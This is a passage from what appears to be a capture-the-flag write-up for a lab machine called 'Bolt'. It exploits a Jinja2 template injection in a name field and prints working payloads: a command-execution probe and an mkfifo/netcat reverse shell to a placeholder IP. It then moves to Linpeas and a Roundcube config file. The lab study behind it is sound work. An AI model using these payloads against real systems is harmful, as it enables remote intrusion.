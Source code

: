 - Nice we have a valid SSTI exploit at the name field , we can try to leverage it to RCE with payload like [those](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md)

```bash
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('whoami').read() }}
```

response :

![error](/assets/images/Bolt/20220224105554.png)

so now we can get a reverse shell with :

```bash
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <ip> 9999 >/tmp/f').read() }}
```

## Foothold :

and we have our shell as www-data :

![error](/assets/images/Bolt/20220224105825.png)

- if we look around we will find a lot of files to explore , we can use **Linpeas** to guide us where to look first and non expected files in some directories and if there is a path to escalate our privilege .

- we can check `roundcube/config/config.inc.php` and will find :

![error](/assets/images/Bolt/20220224120011.png)
